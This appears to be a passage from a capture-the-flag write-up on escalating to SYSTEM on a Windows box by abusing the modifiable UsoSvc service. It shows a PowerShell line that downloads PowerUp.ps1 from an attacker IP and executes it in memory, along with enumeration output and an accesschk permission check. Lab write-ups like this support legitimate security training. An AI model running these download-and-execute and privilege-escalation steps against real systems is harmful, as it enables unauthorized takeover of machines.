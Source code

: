 Abusing UsoSvc Service
Discovering the service
I grabbed a copy of PowerUp.ps1 and ran all checks. It brought up 2 findings, one of which was a vulnerable service called UsoSvc which I could abuse to execute code as SYSTEM.

PS C:\windows\system32\inetsrv> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.15.130/PowerUp.ps1')
PS C:\windows\system32\inetsrv> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2100
ProcessId   : 2460
Name        : 2460
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services
If PowerUp would have been blocked you could have identified the service with accesschk.exe from SysInternals. Transfer it to the box, then check your groups. For each, you can ask accesschk for your permissions:

PS C:\Users\Public\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
PS C:\Users\Public\Documents> .\accesschk.exe -uwcqv "NT AUTHORITY\SERVICE" * /accepteula
